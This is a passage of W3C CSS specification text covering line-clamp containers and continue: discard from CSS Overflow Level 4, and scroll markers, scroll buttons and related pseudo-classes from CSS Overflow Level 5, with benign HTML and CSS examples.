  > **Issue:** `continue: discard` is meant to generalize and replace the `region-fragment` property from [CSS-REGIONS-1]. Once it is sufficiently stable in this specification, `region-fragment` should be removed from the regions specification in favor of this.

  > **Note:** `continue: discard` is at risk: it may be removed before advancement to Recommendation if criteria for advancement are not fulfilled.

> **Example:** Given, as in the illustration bellow, an article with one excessively long overflowing line and four more lines in the block dimension than can fit, different renderings are possible based on the combination of the `overflow` and `continue` property.
>
> 
>
> |  | `continue: collapse` / `continue: discard` | `continue: normal` |
> | --- | --- | --- |
> | `overflow: visible` |  |  |
> | `overflow: hidden` |  |  |

When `text-wrap-style` is set to `balance` on a block container whose `continue` has a value other than `normal`, or which participates in the block formatting context established by an element whose `continue` has a value other than `normal`, layout must first be computed as if `text-wrap-style` were set to `stable`. Then, after any excess content has been truncated and after any necessary block overflow ellipsis has been inserted, the remaining content must be rebalanced, as per `text-wrap-style: balance`. If this rebalancing would cause the logical height of the content to grow, the cutoff point (clamp point or fragmentation break) must be reevaluated, and any necessary block overflow ellipsis reapplied accordingly. Whether to rebalance again after that is up to the user agent, but if it does so, it must always ensure that the constraints about the placement of the cutoff point are adhered to, no matter how many iterations it choose to make.

For other values of `text-wrap-style`, whether to apply them before the effects of the `continue` property, after, or both, is undefined in this level.

Additionally, for compatibility (see [§ 5.1.1 Legacy compatibility](#css-overflow-4:webkit-line-clamp)), when the computed value of the `continue` property is `collapse`, `-webkit-legacy`, or `discard` and the computed value of the `-webkit-box-orient` property is `vertical`:

- If the specified value of the `display` property is `-webkit-box`, the computed value becomes `flow-root` and the box establishes a BFC.
- If the specified value of the `display` property is `-webkit-inline-box`, the computed value becomes `inline-block` and the box establishes a BFC.

> **Note:** This means that `line-clamp` (set without `-webkit-legacy`) will work if both or neither of `-webkit-box-orient: vertical` and `display: -webkit-box` or `display: -webkit-inline-box` are set, but not if `display: -webkit-box` or `display: -webkit-inline-box` is set while `-webkit-box-orient: vertical` isn’t, as the box would be a flex container rather than a block container, and thus the `continue` property would not apply.

##### 5.3.1. Line-clamp containers {#css-overflow-4:line-clamp-containers}

A **line-clamp container** is an independent block formatting context that additionally follows the rules in this section. Line-clamp containers can have a **clamp point**, which is one of the following block-axis positions, known as **clamp opportunities**, inside it:

- The start of the line-clamp container.
- A point between two consecutive line boxes in an inline formatting context contained by the line-clamp container’s block formatting context.

  For this definition, out-of-flow boxes between two line boxes don’t prevent them from being consecutive. This is the case even if the second line box is pushed down by floats. Such out-of-flow boxes are considered to be after the clamp opportunity.
- A point between two in-flow block-level sibling boxes in the line-clamp container’s block formatting context. Any out-of-flow boxes in between are considered to be after the clamp opportunity.

The `max-lines` property determmines which of the clamp opportunities, if any, is chosen to be the clamp point for a given line-clamp container.

Within a line-clamp container, the following boxes and line boxes become visually suppressed:

- Any in-flow or floating boxes that follow the clamp point in the box tree. This includes independent formatting contexts and all of their descendants.
- Any line boxes that follow the clamp point inside an inline formatting context.
- Any absolutely positioned box which has an visually suppressed box within its containing block chain, and all of its descendants.

Within a line-clamp container, floats which have not been made into visually suppressed boxes must be visually clipped to the unshaped block-end content edge of the line-clamp container. They do not introduce any clearance that would make the line-clamp container increase its height, and do not contribute to the scrollable overflow area.

If a block container contains a clamp point, within itself or in any of its descendants, its automatic block size will not take into account any visually suppressed boxes, nor any clipped float. This also applies for the line-clamp container itself.

The first baseline set and last baseline set of a line-clamp container is determined in the same way as for other block containers, except that visually suppressed boxes are not taken into account.

##### 5.3.2. Discarding Content {#css-overflow-4:discarding-content}

> **Note:** `continue: discard`, and thus this subsection, is at risk: it may be removed before advancement to Recommendation if criteria for advancement are not fulfilled.

Content that is “not rendered” due to `continue: discard` is discarded, similar to `display: none`:

- It is not rendered.
- It is also not made available for speech rendering.
- It does not allow user interaction.
- > **Issue:** Make sure effects on OM are well defined [[Issue #2970]](https://github.com/w3c/csswg-drafts/issues/2970)
- > **Issue:** What about positioned elements whose static position is in the discarded content are not rendered? See also discussions in the [Sydney F2F meeting](https://lists.w3.org/Archives/Public/www-style/2018Jul/0030.html). [[Issue #2971]](https://github.com/w3c/csswg-drafts/issues/2971)

However, since intrinsic sizes are calculated across fragmentation containers, this content *is* taken into account for the purpose of finding the box’s min-content and max-content inline sizes (see [CSS Fragmentation 3 § 5.1 Breaking into Varying-size Fragmentainers](#css-break-4:varying-size-boxes)). Min-content and max-content block sizes are calculated based on the content from the start of the fragmented flow to the first forced break if any, or to the end of the fragmented flow if there is no forced break.

> **Note:** This differs from the `visibility: hidden`-like behavior of content after the clamp point with `continue: collapse`.

> **Note:** In the case of [parallel fragmentation flows](#css-break-4:parallel-flows), content occurring after the fragmentation break in the box tree could still be rendered, if it is laid out above the position representing the end of this fragmentation container.

Additionally, if the box is a multi-column container, any overflow columns are also not rendered, nor is any subsequent content—​including any out of flow content whose static position is in or after overflow columns, nor is any additional multi-column line or multi-column row that would be generated to hold such content.

> **Example:** In the absence of the `continue` property, based on CSS Multi-column Layout Module Level 1, the following markup and associated CSS would be expected to render as follows.
>
> ```
> <div class="multicol">
>   <p>Column 1</p>
>   <p>Column 2</p>
>   <p>Column 3</p>
>   <p>Overflow column
>     <div class="spanner">Spanner 1</div>
>   </p>
>   <div class="spanner">Spanner 2</div>
>   <p>Following 1</p>
>   <p>Following 2</p>
>   <p>Following 3</p>
>   <div class="spanner">Spanner 3</div>
>   <p>Following 4</p>
>   <p>Following 5</p>
>   <p>Following 6</p>
> </div>
> ```
>
> ```
> .multicol {
>   columns: 3;
>   border: solid 1px;
> }
> .multicol p {
>   break-after: column;
>   break-inside: avoid;
> }
> .spanner {
>   column-span: all;
>   text-align: center;
> }
> ```
>
> ```
> Column 1        Column 2        Column 3        Overflow column
>            Spanner 1
>            Spanner 2
> Following 1     Following 2     Following 3
>            Spanner 3
> Following 4     Following 5     Following 6
> ```
>
> There is one overflow column, a spanner whose static position is within that overflow column, another spanner whose static position is after the overflow column, inflow content after the spanners and the overflow column, and another spanner whose static position is in this subsequent inflow content.
>
> If we additionally apply the following style, everything starting from and including the overflow column is discarded.
>
> ```
> .multicol {
>   continue: discard;
>   block-ellipsis: ellipsis;
> }
> ```
>
> ```
> Column 1        Column 2        Column 3…
> ```

### Appendix A: Possible extensions for `scrollbar-gutter` {#css-overflow-4:sbg-ext}

*This section is non-normative.*

> **Issue:** This section documents current attempts at extending the `scrollbar-gutter` property to solve additional use cases. However, it does not currently have consensus. It is presented here to encourage discussion, but non-experimental implementation is not recommended.

> **Example:** This example exercises all the additional values of the `scrollbar-gutter` property:
>
> - `scrollbar-gutter: always` on the scroll container
> - `scrollbar-gutter: match-parent` on each row inside the scroll container
>
> With classic scrollbars
>
> With overlay scrollbars

| Field | Value |
| --- | --- |
| Name: | `scrollbar-gutter` |
| [New values:](#css-values-4:value-defs) | auto \| [ [ stable \| always ] && both-edges? ] \|\| match-parent |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |

For overlay scrollbars, the precise width of the scrollbar gutter, if present, is UA defined. However, it must not be 0, and it must not change based on user interactions with the page or the scrollbar even if the scrollbar itself changes, with the expectation that it covers the width of the overlay scrollbar in its widest form, to the extent that this is well defined.

The new values of this property have the following meaning:

****always****

: The scrollbar gutter is always present when `overflow` is `scroll`, `hidden`, or `auto`, regardless of the type of scrollbar or of whether the box is overflowing.

  > **Example:** `scrollbar-gutter: always` can be bused to solve the problem of (small) interactive elements near the edge of the element getting covered by an appearing overlay scrollbar. A representative case would be a basic todo list, with each line starting with some text and ending with a right-aligned checkbox. With a classic scrollbar, everything is fine, but an overlay scrollbar could obscure the check boxes and make them hard to interact with.
  >
  > Checkboxes adjacent to a classic scrollbar
  >
  > 
  >
  > Checkboxes and an overlay scrollbar
  >
  > 
  >
  > Overlay Scrollbar are typically transient and disappear when not interacted with, so the checkboxes they cover are not impossible to use. But when the scrollbar is shown it does get in the way, and that makes for an awkward interaction. The author might try and solve the problem by adding some right padding, but (1) how much?, and (2) that padding isn’t needed in the case of classic scrollbars. `scrollbar-gutter: always` solves this problem, yielding an identical result in first case of classic scrollbars, but adding the desired gutter with overlay scrollbars:
  >
  > Checkboxes and an overlay scrollbar and `scrollbar-gutter: always`
  >
  > 

  > **Issue:** Apple is reluctant to add this value, as authors may use it too broadly, inserting gutters with overlay scrollbars even when not justified by interactive elements, defeating the space-saving advantage of overlay scrollbars.
  >
  > An alternative solution has been suggested: as the focus is interactive elements, maybe we could have a property that applies to the elements that needs to avoid being under the scrollbar. When turned on, it would enlarge the right or left margin of the element as appropriate by just the right value to push it out from under an overlay scrollbar if that’s where it would end up, but would leave the element unchanged otherwise.
  >
  > Possibly, an addition toggle would cause the element to enlarge both its inline-end and inline-start margins or neither, rather than just one. This could typically be useful for block-level descendants of the scroller with visible borders or background: adding space on one side to avoid collisions with the overlay scrollbar would make them look off-center when the scrollbar disappears. Increasing the margin on both sides avoids that.
  >
  > Yet another possibility is to have a choice between growing the margin to protect the element, or growing the padding to protect the element’s content.
  >
  > The syntax could be something like `scrollbar-avoid: none | [self | content] && both-edges?`.
  >
  > An interesting consideration is that this may alleviate the need for `scrollbar-gutter: match-parent`, as it seems that situations that would have been addressed by `scrollbar-gutter: stable` or `scrollbar-gutter: always` on the parent and `scrollbar-gutter: match-parent` on the select children could instead be addressed by leaving the parent as `scrollbar-gutter: auto` and using `scrollbar-avoid: self` or `scrollbar-avoid: content` on the relevant children.

****match-parent****

: On a block-level box whose parent has a scrollbar gutter (or gutters on both edges), this causes the box to have scrollbar gutter on the same side(s) and of the same width as its parent’s gutter(s). Moreover, that gutter is made to overlap that of the parent box.

  If the box with `scrollbar-gutter: match-parent` has a non-zero border or margin on the side where the gutter is expected, then the size of that box’s gutter is `parent.gutter - child.border - child.margin`, and the gutter+border+margin is what collapses with the parent’s gutter.

  If the box with `scrollbar-gutter/ match-parent` is itself a scroll container, depending on the type of scrollbars, on its `overflow` property, and on the other values of the `scrollbar-gutter` property, it may need additional gutter for its own scrollbars. This comes in addition to the amount of gutter added for the sake of the `match-parent` value and does not collapse with the parent’s gutter.

  > **Example:** A scroller with an child whose background intrudes into the gutter, thanks to `match-parent`
  >
  > A `match-parent` box inside a scroll container with classic scrollbars, `overflow: auto`, and `scrollbar-gutter: stable`
  >
  > A scrollable box with `match-parent` inside another scroll container
  >
  > A scrollable box with `match-parent` inside another scroll container, with bidi
  >
  > A scrollable box with `scrollbar-gutter:match-parent stable` inside another scroll container, with bidi

> **Note:** The following table summarizes the interaction of `overflow` and `scrollbar-gutter` for different types of scrollbars, showing in which case space is reserved for the scrollbar gutter.
>
> | `overflow` | `scrollbar-gutter` | Classic scrollbars | Overlay scrollbars (whether overflowing or not) |  |
> | --- | --- | --- | --- | --- |
> | Overflowing | Not overflowing |  |  |  |
> | `scroll` | `auto` | yes | yes |  |
> | `stable` | yes | yes |  |  |
> | `always` | yes | yes | yes |  |
> | `auto` | `auto` | yes |  |  |
> | `stable` | yes | yes |  |  |
> | `always` | yes | yes | yes |  |
> | `hidden` | `auto` |  |  |  |
> | `stable` | yes | yes |  |  |
> | `always` | yes | yes | yes |  |
> | `visible`, `clip` | `auto` |  |  |  |
> | `stable` | if `force` | if `force` |  |  |
> | `always` | if `force` | if `force` | if `force` |  |

---

## CSS Overflow Module Level 5 {#css-overflow-5}

- **Shortname:** `css-overflow-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-overflow-5/](https://drafts.csswg.org/css-overflow-5/)
- **Published TR:** [https://www.w3.org/TR/css-overflow-5/](https://www.w3.org/TR/css-overflow-5/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-09-16
- **Diff Specification Over:** [CSS Overflow Module Level 4 (`css-overflow-4`)](#css-overflow-4)

### 1.  Introduction {#css-overflow-5:intro}

This specification extends [CSS-OVERFLOW-4]. It is currently a diff specification, defining only a few new features; see [CSS-OVERFLOW-4] for the rest of the features related to overflow.

**[Scroll navigation controls](#css-overflow-5:scroll-navigation)**

: This section defines the ability to associate scroll markers with elements in a scroller (or generate them automatically as `::scroll-marker` pseudo-elements, with automatic user behavior and accessible labels), which can be activated to scroll to the associated elements and reflect the scroller’s relative scroll progress via the `:target-current` pseudo-class.

  It also defines `::scroll-button()` pseudo-elements, which can be activated to cause their associated scroller to scroll by a "page" in a given direction.

**[Redirection of Overflow](#css-overflow-5:fragmentation)**

: This section defines a highly experimental, exploratory new model for handling overflow by redirecting it into newly-generated fragmentation containers.

### 2.  Overflow Concepts and Terminology {#css-overflow-5:overflow-concepts}

> **Issue:** Copy [Level 3 content](#css-overflow-3:overflow-concepts) when final.

#### 2.1. Scrolling overflow {#css-overflow-5:scrolling}

The following is added to the concepts in scrolling overflow:

Every scroll container maintains a **current scroll target**. It is initially `null`, and is reset to `null` after any scrolling operations in that scroll container initiated by the user, or any script initiated operations that do not have a target, or when the target is removed from the document. Scrolling operations in the scroll container with a target Element or PseudoElement, set the current scroll target to that target Element or PseudoElement.

> **Issue:** Setting the current scroll target should be defined in how to scroll a target into view.

> **Issue:** Use the current scroll target as an anchor priority candidate for scroll anchoring.

### 3.  Scroll navigation controls {#css-overflow-5:scroll-navigation}

#### 3.1.  Scroll markers {#css-overflow-5:scroll-markers}

A **scroll marker** is any element or pseudo-element with a scroll target. An element or pseudo-element’s **scroll target** is the `Element` indicated by the scroll marker. Which elements are scroll markers, and what their scroll targets are, is host-language defined. The [HTML <a> element](https://html.spec.whatwg.org/multipage/text-level-semantics.html#the-a-element) and [SVG <a> element](https://w3c.github.io/svgwg/svg2-draft/linking.html#Links) are scroll markers, whose scroll target is the indicated part. While these navigational links can be created today, there is little feedback to the user regarding the current content being viewed, and the interaction model does not match the expectations of many modern accessible UI components.

This specification adds a mechanism for creating groups of scroll markers, and for automatically creating `::scroll-marker` pseudo-elements. Within each group, the active marker reflects the current scroll position, and can be styled to give the user an indication of which section they are in.

Use cases include a table of contents with links to relevant contents, markers for scrolling carousel pages, and scrollable tab panels.

> **Issue:** Add images representing these examples.

##### 3.1.1.  Scroll marker grouping {#css-overflow-5:scroll-marker-grouping}

The `scroll-target-group` property determines whether an element establishes a **scroll marker group container** containing scroll marker elements forming a scroll marker group.

A `::scroll-marker-group` pseudo-element is the scroll marker group container for its contained `::scroll-marker` pseudo-elements, which form a scroll marker group together.

##### 3.1.2.  The 'scroll target group' property {#css-overflow-5:scroll-target-group}

| Field | Value |
| --- | --- |
| Name: | **scroll-target-group** |
| [Value:](#css-values-4:value-defs) | none \| auto |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `scroll-target-group` property specifies whether the element is a scroll marker group container.

****none****

: The element does not establish a scroll marker group container.

****auto****

: The element establishes a scroll marker group container forming a scroll marker group containing all of the scroll marker elements for which this is the nearest ancestor scroll marker group container.

> **Example:** The following snippet demonstrates how to automatically highlight the currently visible chapter within a table of contents
>
> ```
> <!DOCTYPE HTML>
> <title>scroll-target-group example with a table of contents</title>
> <style>
>   ol {
>     background-color: gray;
>     right: 10px;
>     top: 10px;
>     position: fixed;
>     /* Triggers the browser's algorithm for calculating :target-current. */
>     scroll-target-group: auto;
>   }
>
>   a:target-current {
>     color: red;
>   }
>
>   .chapter {
>     background: lightgray;
>     height: 60vh;
>     margin: 10px;
>   }
> </style>
> <ol>
>   <li><a href="#intro">Introduction</a></li>
>   <li><a href="#ch1">Chapter 1</a></li>
>   <li><a href="#ch2">Chapter 2</a></li>
> </ol>
> <div id="intro" class="chapter">Introduction content</div>
> <div id="ch1" class="chapter">Chapter 1 content</div>
> <div id="ch2" class="chapter">Chapter 2 content</div>
> ```

##### 3.1.3.  The `scroll-marker-group` property {#css-overflow-5:scroll-marker-group-property}

| Field | Value |
| --- | --- |
| Name: | **scroll-marker-group** |
| [Value:](#css-values-4:value-defs) | none \| [ [ before \| after ] \|\| [ links \| tabs ] ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `scroll-marker-group` property specifies whether the scroll container should have a '::scroll-marker-group' pseudo-element created, and its position relative to the scroll container.

****none****

: The scroll container does not create a '::scroll-marker-group' pseudo-element.

****before****

: The scroll container generates a `::scroll-marker-group` pseudo-element. When originating from the root element, the generated pseudo-element’s box is the first child of the originating element. Otherwise, its box is an immediate preceding sibling to its originating element.

****after****

: The scroll container generates a `::scroll-marker-group` pseudo-element. When originating from the root element, the generated pseudo-element’s box is the last child of the originating element. Otherwise, its box is an immediate following sibling to its originating element.

****links****

: The generated `::scroll-marker-group` operates in "links" mode, functioning like a navigation list. This is the default mode if omitted.

****tabs****

: The generated `::scroll-marker-group` operates in "tabs" mode, functioning like a tablist.

##### 3.1.4. The `::scroll-marker-group` pseudo-element {#css-overflow-5:scroll-marker-group-pseudo}

The **::scroll-marker-group** fully styleable pseudo-element is generated by a scroll container element having a computed `scroll-marker-group` property that is not `none`.

The `::scroll-marker-group` generates a box as a *sibling* of its originating element, either immediately preceding (if `scroll-marker-group: before`) or immediately following (if `scroll-marker-group: after`).

The following additions are recommended for the default UA stylesheet to ensure that the generation of scroll marker pseudo-elements does not invalidate the layout of the site:

```css
/* The generation of ::scroll-marker pseudo-elements shouldn't
 * invalidate layout outside of this pseudo-element. */
::scroll-marker-group { contain: size !important; }
```

##### 3.1.5. The `::scroll-marker` pseudo-element {#css-overflow-5:scroll-marker-pseudo}

Similar to `::before` and `::after`, all elements can have a `::scroll-marker` pseudo-element, which is collected into the `::scroll-marker-group` of the nearest scroll container ancestor, and scrolls to the element when activated.

When the computed `content` value of a **::scroll-marker** pseudo-element is not `none` and its nearest ancestor scroll container scroll container has a computed `scroll-marker-group` property that is not `none`, the pseudo-element generates a box attached as a child of the `::scroll-marker-group` pseudo-element’s generated box on its nearest ancestor scroll container. These boxes are added in the tree order of their originating element.

These pseudo-elements are fully styleable pseudo-elements and have a default style like the [HTML <a> element](https://html.spec.whatwg.org/multipage/text-level-semantics.html#the-a-element).

These pseudo-elements have an indicated scroll target of their originating element.

##### 3.1.6. Scroll Marker Modes {#css-overflow-5:scroll-marker-modes}

A `::scroll-marker-group` operates in either **links** or **tabs** mode based on the `scroll-marker-group` property value of its originating element. The chosen mode significantly affects the roles, focus behaviors, and interactions of the associated elements and pseudo-elements (see [§ 3.1.9 Activation behavior](#css-overflow-5:scroll-marker-activation)).

If the mode is links:

- The roles of `::scroll-marker-group` and `::scroll-marker` are `navigation` and `link` respectively.
- All `::scroll-marker` pseudo-elements are tab stops, in order.
- The roles of the originating elements are unaffected.

If the mode is tabs:

- The roles of `::scroll-marker-group` and `::scroll-marker` are `tablist` and `tab` respectively.
- The `::scroll-marker-group` implicitly behaves as a single focusable component, establishing a [focusgroup](https://open-ui.org/components/focusgroup.explainer/).
- Only the active `::scroll-marker` is a tab stop; arrow keys are used to switch between markers. They behave as an element with a [`tabindex`](https://html.spec.whatwg.org/multipage/interaction.html#attr-tabindex) of "-1", making them focusable within their `::scroll-marker-group` either by arrow key navigation within the group, or via the tab key when currently active (or when no other `::scroll-marker` is active and this is the first marker in the group), ensuring the group has a [guaranteed tab stop](https://open-ui.org/components/focusgroup.explainer/#guaranteed-tab-stop).
- Originating elements of `::scroll-marker` are given an implicit role of `tabpanel`. If the originating element is a `::column` pseudo-element, the `tabpanel` role is given to the originating element of the `::column`.
- The `::scroll-marker` pseudo-element is a focus navigation scope owner for its associated originating element. This means that tab focus moves from the marker to the content. Since only the active marker is a tab stop, contents of the inactive tabpanels are not reached unless the active tab is switched.
- Content from inactive tabs is also hidden from the accessibility tree, meaning authors do not need to carefully apply `interactivity: inert` to hide the inactive tabpanels.

##### 3.1.7.  Selecting Scroll Markers: `:target-current`, `:target-before` and `:target-after` pseudo-classes {#css-overflow-5:active-before-after-scroll-markers}

Exactly one scroll marker within each scroll marker group is determined to be active at a time. Such "active" scroll markers match the **:target-current** pseudo-class.

In addition to the `:target-current` pseudo-class, this specification introduces the **:target-before** and **:target-after** pseudo-classes for use with scroll marker elements.

These pseudo-classes match scroll markers that are, respectively, before or after the active marker (the one matching `:target-current`) within the same scroll marker group, as determined by flat tree order:

- **:target-before** matches all scroll markers that precede the active marker in the flat tree order within the group.
- **:target-after** matches all scroll markers that follow the active marker in the flat tree order within the group.

> **Example:** The following snippet demonstrates how to style the active scroll marker and scroll markers before and after the currently active one in a table of contents:
>
> ```
> <!DOCTYPE HTML>
> <title>:target-before and :target-after example</title>
> <style>
>   ol {
>     background-color: gray;
>     right: 10px;
>     top: 10px;
>     position: fixed;
>     scroll-target-group: auto;
>   }
>   a:target-before {
>     color: #888;
>   }
>   a:target-current {
>     color: red;
>     font-weight: bold;
>   }
>   a:target-after {
>     color: #444;
>   }
>   .chapter {
>     background: lightgray;
>     height: 60vh;
>     margin: 10px;
>   }
> </style>
> <ol>
>   <li><a href="#intro">Introduction</a></li>
>   <li><a href="#ch1">Chapter 1</a></li>
>   <li><a href="#ch2">Chapter 2</a></li>
> </ol>
> <div id="intro" class="chapter">Introduction content</div>
> <div id="ch1" class="chapter">Chapter 1 content</div>
> <div id="ch2" class="chapter">Chapter 2 content</div>
> ```

##### 3.1.8.  Calculating the Active Scroll Marker {#css-overflow-5:active-scroll-markers-calculation}

A scrolling operation might animate towards a particular position (e.g. scrollbar arrow clicks, arrow key presses, "behavior: smooth" programmatic scrolls) or might directly track a user’s input (e.g. touch scrolling, scrollbar dragging). In either case, the user agent chooses an 'eventual scroll position' to which the scroller will reach. This ensures that the relevant marker is activated immediately.

This 'eventual scroll position' is used to determine the active marker within each scroll marker group. Since markers themselves may represent just the start of the content (e.g. headers), we consider the active marker to be the first one which we are at or beyond the scroll position of.

Whenever a scroll container participating in one or more scroll marker groups is scrolled, or layout changes the eventual scroll position, the user agent should determine and update the active marker for each scroll marker group based on the section of content most likely to be of interest given the target scroll position.

> **Example:** algorithm to determine the active marker for a given scroll marker *group*.
>
> 1. Let *scroller* be the nearest common ancestor scroll container of all of the scroll marker elements in *group*.
> 2. Let *active* be scroller.
> 3. While *active* is a scroll container containing scroll target elements targeted by *group*:
>
>   1. Let *scroller* be *active*.
>   2. Let *targets* be the set of the scroll target elements whose nearest ancestor scroll container is *scroller* and the scroll container elements which contain scroll target elements targeted by the scroll marker group whose nearest ancestor scroll container is *scroller*.
>   3. **If *scroller* has a non-null current scroll target**
>
>      : Let active be the first item in *targets* encountered by a reverse tree order walk starting from the current scroll target, or the first item in tree order in *targets* if no target is found in the previous walk.
>
>      **Otherwise,**
>
>      : 1. Let *primary* be the primary scrolling axis, assumed to be the block direction of the container’s writing-mode.
>   2. Let *secondary* be the scrolling axis perpendicular to primary.
>   3. Let *position* be the 'eventual scroll position' considering ongoing scrolling operations.
>   4. For each *axis* of *primary*, followed by *secondary*:
>
>     1. Let *scrollport size* be the client size of *scroller* in the dimension *axis*.
>     2. For each *target* in *targets*, determine the scroll-into-view position of *target* in *axis*, storing this as the associated *target position* of *target*.
>     3. Let *scroll size* be the length of the scrollable overflow area of the *scroller* in the dimension *axis*.
>     4. Let *scroll range* be `scroll size - scrollport size`.
>     5. If *scroll range* is greater than 0, redistribute unreachable target positions:
>
>       1. Let *distribute range* be `min(1/8 * scrollport size, scroll range / 2)`.
>       2. Let *before targets* be all *targets* whose associated *target position* is less than `distribute range`.
>       3. Let *minimum position* be the minimum *target position* of *before targets*.
>       4. Update the associated *target position* of each target in *before targets* to `(target position - minimum position) / (distribute range - minimum position) * distribute range`.
>       5. Let *after targets* be all *targets* whose associated *target position* is greater than `scroll range - distribute range`.
>       6. Let *maximum position* be the maximum *target position* of *after targets*.
>       7. Update the associated *target position* of each target in *after targets* to `(target position - (scroll range - distribute range)) / (maximum position - (scroll range - distribute range)) * distribute range + (scroll range - distribute range)`.
>     6. Let *selected position* be the largest *target position* where *target position* is equal to or before *position* in the *axis*, or whose nearest smaller *target position* < *position* - *scrollport size* / 2 and whose *target position* < *position* + *scrollport size* / 2.
>     7. **If there is no such position,**
>
>        : Set the *selected position* to the first one.
>     8. Let *active* be the all of the *targets* whose associated *target position* is *selected position*.
>   5. Let *active* be the first item in *active* if it has more than one potential target.
> 4. Let *selected marker* be the scroll marker associated with *active*. If multiple scroll marker elements are associated with *active*, set *selected marker* to be the marker that is earliest in tree order among them.
> 5. Return *selected marker*

Whenever the UA determines that a new marker is the *active marker* for a scroll marker group *group* it must run the following steps:

1. Set the active state of *active marker* to true.
2. **If *active marker* was the [last-focused element](https://open-ui.org/components/focusgroup.explainer/#last-focused-memory) of the *group*,**
3. Set the [last-focused element](https://open-ui.org/components/focusgroup.explainer/#last-focused-memory) of the *group* to *active marker*.
4. Set the active state of all other scroll marker elements in *group* to false.

##### 3.1.9. Activation behavior {#css-overflow-5:scroll-marker-activation}

When a scroll marker with a non-null scroll target is activated by explicit invocation or arrow key focus:

1. Let *element* be the scroll target of the control.
2. Let *block* be "`start`".
3. Let *inline* be "`start`".
4. Let *container* be the nearest common ancestor scroll container of the scroll markers in the scroll marker group associated with this scroll marker.
5. Scroll the *element* into view with *block*, *inline*, and *container*.
6. **If the activation was triggered by invocation**

   : 1. Follow the hyperlink updating the URL.
  2. **If the scroll marker group is in tabs mode**

     : Retain focus on the scroll marker element.
  3. **If the scroll marker group is in links mode**

     : Set the [sequential focus navigation starting point](https://html.spec.whatwg.org/multipage/interaction.html#sequential-focus-navigation-starting-point) to the originating element, losing focus from the scroll marker.

  > **Note:** In tabs mode, if the user tabs away, the focus behavior will ensure they tab into the relevant content.

##### 3.1.10. Next tab-index-ordered focus {#css-overflow-5:scroll-marker-next-focus}

When a scroll marker in tabs mode is activated, the next tabindex-ordered focus navigation will focus the scroll target if it is focusable, otherwise, it will find the next focusable element from the scroll target as though it were focused.

#### 3.2.  Scroll Buttons {#css-overflow-5:scroll-buttons}

The **::scroll-button( '*' | `<scroll-button-direction>` )** pseudo-elements are generated on scroll containers when their computed `content` value is not `none`. They generate boxes as if they were immediately preceding *siblings* of their originating element, with content as specified by `content`. They exist after their originating element’s `::scroll-marker-group` pseudo-element (when used with `scroll-marker-group: before`).

Four distinct `::scroll-button()` pseudo-elements can exist on a scroll container, each associated with a flow-relative direction, based on their originating element’s writing mode: in order, block-start, inline-start, inline-end, and block-end. The `::scroll-button()` pseudo-elements are both focusable and activatable by default, with their activation behavior being to scroll their originating element by one "page" in their associated direction, similar to pressing PgUp/PgDn keys. (Usually, this will be about 85% of the scrollport size.) Like those keys, this scroll has an intended direction and end position.

> **Issue:** [CSSOM-VIEW-1] will grow a "scroll by pages" algorithm, at which point this can reference that. See  [the resolution on issue #10914](https://github.com/w3c/csswg-drafts/issues/10914#issuecomment-2380139977).

> **Issue:** Is this the best order for the buttons? This does match the usual ordering of logical directions in CSS, but similar buttons created manually are usually either ordered with verticals and horizontals each grouped together (aka block-start/block-end then inline-start/inline-end) or the verticals "around" the horizontals (aka block-start/inline-start/inline-end/block-end).

The four `::scroll-button()` pseudo-elements are individually selected by the selector’s argument. A `*` arguments selects all four `::scroll-button()`s; otherwise the selected pseudo-element is determined by the **`<scroll-button-direction>`** value:

****up** **down** **left** **right****

: Selects the `::scroll-button()` corresponding to the given physical direction.

****block-start** **block-end** **inline-start** **inline-end****

: Selects the indicated `::scroll-button()` pseudo-element.

****prev****

: Selects either the block-start or inline-start `::scroll-button()`, whichever’s axis has more "scrollable pages" in the originating element: the originating element’s scrollable overflow height divided by its scrollport height, or the same but for widths.

  If both dimensions are equally sized, selects the block-start `::scroll-button()`.

  > **Example:** For example, say the originating element was 800px wide and 500px tall, while its scrollable overflow area was 1200px wide and 1000px tall. The horizontal scrolling thus represents 1.5 "pages" (1200/800), while the vertical scrolling represents 2 "pages" (1000/500), so (assuming the element is in English) the `::scroll-button(prev)` selector would select the block-start button.

****next****

: Identical to `prev`, except it selects the block-end or inline-end `::scroll-button()` instead.

> **Issue:** Do we want to add some multi-button keywords to make it easier to style several buttons the same way? In particular, `all` is probably useful, but maybe also `horizontal`/`vertical`/`block`/`inline`.

The `::scroll-button()`s are fully styleable pseudo-elements: there is no restriction on what properties apply to them. They are styled like buttons, switching between the native appearance and base appearance based on the `appearance` property value.

The `:disabled` pseudo-class can apply to `::scroll-button()`. It matches a given button when their originating element can’t be scrolled in their associated direction.

> **Issue:** The UA stylesheet needs to specify that `::scroll-button()`s are styled identically to the `button` element, including disabled styles.

> **Issue:** Should `::scroll-button()` use the *full* UA styling of buttons, aka `appearance:button`? Or the non-native rendering, aka `appearance:none`? If the former, we’ll obviously need to define the interaction with `appearance`.

#### 3.3.  Focus behavior {#css-overflow-5:overflow-pseudo-focus-behavior}

The above features generate several focusable pseudo-elements. This section defines some of the focus related behaviors.

##### 3.3.1.  The active element {#css-overflow-5:active-element}

When a `::scroll-button()` or `::scroll-marker` is focused, the `activeElement` is the scroll container the control is associated with.

##### 3.3.2.  Focus related pseudo-classes {#css-overflow-5:focus-pseudoclasses}

When a `::scroll-button()` or `::scroll-marker` is focused, none of the focus related pseudo-classes `:focus`, `:focus-visible` and `:active` match on the scrolling container. Instead, `:focus` and, when relevant `:focus-visible`, match on the focused pseudo-element. `:active` matches on the pseudo-element while it is being activated. `:focus-within` matches on the scroll container and all of its ancestors in the flat tree.

